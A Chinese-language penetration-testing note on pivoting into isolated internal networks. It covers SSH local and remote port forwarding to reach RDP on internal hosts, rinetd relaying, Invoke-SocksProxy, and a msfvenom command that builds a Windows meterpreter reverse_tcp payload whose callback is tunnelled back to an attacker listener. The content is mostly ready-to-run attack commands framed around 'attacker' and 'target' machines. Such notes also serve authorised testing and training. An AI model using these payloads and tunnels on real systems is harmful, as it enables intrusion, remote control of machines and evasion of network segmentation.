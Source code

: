  #### SSH
	-C 压缩传输，加快传输速度
	-f 在后台对用户名密码进行认证
	-N 仅仅只用来转发，不用再弹回一个新的shell -n 后台运行
	-q 安静模式，不要显示任何debug信息
	-l 指定ssh登录名
	-g 允许远程主机连接到本地用于转发的端口
	-L 进行本地端口转发
	-R 进行远程端口转发
	-D 动态转发，即socks代理
	-T 禁止分配伪终端
	-p 指定远程ssh服务端口
 #### 正向转发
	外网靶机110
	内网靶机115
	本地攻击机编辑后restart ssh服务
	#vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	>ssh -C -f -N -g -L 33890:192.168.0.115:3389 root@192.168.0.110 -p 22
	本地攻击机执行，本地33890转发到远程的3389端口
	上线MSF
	攻击机?出网Linux靶机--不出网Linux靶机--不出网win机
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=不出网Linux机 lport=12138 -f exe -o /var/www/html/1.exe
	攻击机监听端口12345
	不出网Linux机
	>ssh -C -f -N -g -L 0.0.0.0:12138:攻击机:12345 root@出网Linux主机 -p 22
 #### 反向转发
	外网攻击107
	内网靶机97
	出网靶机编辑后restart ssh服务
	#vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	>ssh -C -f -N -g -R 33890:10.1.1.97:3389 root@192.168.0.107 -p 22
	出网靶机执行，把外部攻击机33890转发到内部隔离网络的3389
	>netstat –tnlp
![image](/assets/Pentest_Note/master/img/165.png)

	转发成功，外网攻击机安装apt install rinetd(正向tcp转发工具)
	>vim /etc/rinetd.conf
	添加0.0.0.0 3389 127.0.0.1 33890
	>service rinetd start
![image](/assets/Pentest_Note/master/img/166.png)

	看到107是kali攻击机，连接107:33890即可到达内网10.1.1.97的桌面
![image](/assets/Pentest_Note/master/img/167.png)
 ### Invoke-SocksProxy
	https://gitee.com/RichChigga/Invoke-SocksProxy
	>Import-Module .\Invoke-SocksProxy.psm1 
	>Invoke-SocksProxy -bindPort 12138 建立socks代理，使用代理软件连接
![image](/assets/Pentest_Note/master/img/168.png)
![image](/assets/Pentest_Note/master/img/169.png)
